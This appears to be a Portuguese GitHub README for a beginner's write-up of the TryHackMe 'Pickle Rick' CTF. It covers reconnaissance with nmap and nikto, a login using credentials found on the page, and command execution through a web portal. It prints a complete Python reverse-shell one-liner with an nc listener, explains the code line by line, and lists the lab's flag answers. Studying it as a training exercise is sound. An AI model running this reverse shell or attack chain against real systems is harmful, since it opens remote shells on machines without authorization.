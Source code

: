 # CTF Pickle Rick - Passo a passo do meu primeiro CTF do TryHackme
Introdução
Este repositório documenta passo a passo a minha jornada de resolução do CTF "Pickle Rick" na plataforma TryHackme. O objetivo é compartilhar meu aprendizado e experiência, detalhando os processos e comandos utilizados para completar o desafio.

## Descrição do Desafio
O objetivo do CTF era encontrar três "ingredientes" para ajudar Rick a se transformar em humano novamente. Para isso, era necessário explorar o site alvo, identificar vulnerabilidades e explorar o sistema para obter acesso aos ingredientes.

## Passos para Resolução
1. **Validação e Verificação do HTML:**
   Inspecionei o código HTML da página inicial e encontrei um comentário com o username "R1ckRul3s".
   No arquivo "/robots.txt", encontrei a palavra "Wubbalubbadubdub".

2. **Scan de Portas com Nmap:**
   Realizei um scan de portas com o comando nmap -sC -sV -oN nmap/initial 10.10.134.39.
   As portas 22 (SSH) e 80 (HTTP) estavam abertas.


3. **Scan de Vulnerabilidades com Nikto:**
   Executei o comando nikto -h http://$IP | tee nkto.log para identificar vulnerabilidades no site.
   Encontrei algumas vulnerabilidades, incluindo:
   * Ausência do cabeçalho X-Frame-Options
   * Versão desatualizada do Apache
   * Cookie PHPSESSID sem o flag httponly
   * Página de login de administrador
  
4. **Primeira Flag:**
   Acessei a página de login /login.php com o username "R1ckRul3s" e a senha "Wubbalubbadubdub".
   Obtive acesso à página de administrador e encontrei a primeira flag no arquivo "Sup3rS3cretPickl3Ingred.txt": "mr. meeseek hair".

5. **Segunda Flag:**
   Decifrei um hash em base64 encontrado no HTML da página, que me levou à frase "rabbit hole" que era só um atrativo para perder tempo. Explorei o código fonte da página /portal.php e executei um reverse shell Python para obter acesso ao servidor no campo de input da mesma. Encontrei a segunda flag no arquivo second ingredients, localizado em /home/rick: "1 jerry tear".

6. **Terceira Flag:**
   Obtive acesso root ao servidor, pois não havia senha definida.
   Encontrei a terceira flag no arquivo 3rd.txt, localizado no diretório raiz: "fleeb juice".
   
## Detalhes Técnicos

### Comando utilizados:
* `nmap -sC -sV -oN nmap/initial $IP`
* `nikto -h http://$IP | tee nkto.log`
* `nc -lnvp 9999`
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MeuIP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'```

* **OBS:** As saídas do nmap e do nikto estão localizadas em suas respectivas pastas neste repositório.

### Detalhamento dos comandos utilizados:

**Detalhamento do comando usado no Nmap:**
* **nmap**: Comando utilizado para chamar a ferramente no terminal.
* **-sC**: Opção que permite scripts serem executados na varredura. Existe uma coleção de scripts mais detalhados, mas deixando em branco foi utilizado script default.
* **-sV**: Opção que ativa a detecção de versão dos serviços, tentando detalhar a versão dos softwares e serviços que estão sendo executados no alvo. 
* **-oN nmap/initial**: Esta opção tem como objetivos salvar o retorno da varredura em um arquivo legível salvo no diretório apontado.
* **$IP**: Este é o IP do alvo, definido no terminal atravé do comando `export IP="IP do alvo"` sendo este utilizado para poder ser feita a varredura. 
  
<hr>

**Detalhamento do comando usado no Nitko:**
* **nikto**: Comando utilizado para chamar a ferramente no terminal.
* **-h http://$IP**: A opção `-h` é utilizada para especificar o host que será escaneado. Sendo o host representado pela variável `IP` que havia sido declarada anteriormente no terminal através do comando `export IP="IP do alvo"`.
* **|**: O Pipe serve para pegar o retorno do comando a esquerda dele e usar como entrada para o comando a direita dele.
* **tee nkto.log**: Utilizando o comando tee é possível gravar a saída do comando em um arquivo chamado nkto.log e ainda exibí-la no terminal. 

<hr>

**Detalhamento do comando usado no Ncat:**
* **nc**: Comando utilizado para chamar a ferramenta do terminal e executá-la. 
* **-l**: Opção usada para especificar para o ncat que ele deve ficar "escutando" uma conexão de entrada.
* **-n**: Opção usada para impedir que o ncat realize qualquer pesquisa DNS ou portas, nomes de hosts...
* **-v**: Opção utilizada para aumentar a verbosidade do retorno do ncat, informando mais dados na saída do terminal. 
* **-p 9999**: A opção `-p` é usada para especificar a porta que o ncat deve ficar escutando, e o `9999` é a porta em questão.

<hr>

**Detalhamento do código em Python utilizado:**
* **python3 -c**: Executa o código Python que segue na linha de comando.
* **import socket,subprocess,os**: importa os módulos necessários. O socket para conexões de rede, subprocess para criar novos processos e os para interfaces diversas do sistema operacional.
* **s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);**:Isso cria um novo objeto de socket que usa a família de endereços IPv4 (AF_INET) e o tipo de socket TCP (SOCK_STREAM).
* **s.connect(("Meu IP",9999));**: Isso conecta o socket ao endereço IP informado na porta 9999.
* **os.dup2(s.fileno(),0), os.dup2(s.fileno(),1), os.dup2(s.fileno(),2);**: Essas linhas redirecionam os descritores de arquivo padrão para o socket. 0, 1 e 2 representam os descritores de arquivo padrão para entrada padrão, saída padrão e erro padrão, respectivamente. Isso significa que a entrada, saída e erro do processo que será criado serão enviados através do socket.
* **p=subprocess.call(["/bin/sh","-i"]);**: Isso cria um novo processo que inicia uma nova shell. A opção `-i` garante que a shell seja interativa, o que significa que ela pode receber entrada do usuário.


### Recursos Adicionais:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Considerações finais

Este CTF foi uma experiência desafiadora e gratificante que me permitiu praticar minhas habilidades em ethical hacking. Através da análise de código, exploração de vulnerabilidades e pivotamento de rede, fui capaz de completar o desafio e obter as três flags.

Agradecimentos:

Agradeço à plataforma TryHackme por oferecer este CTF e por contribuir para o meu aprendizado em segurança da informação.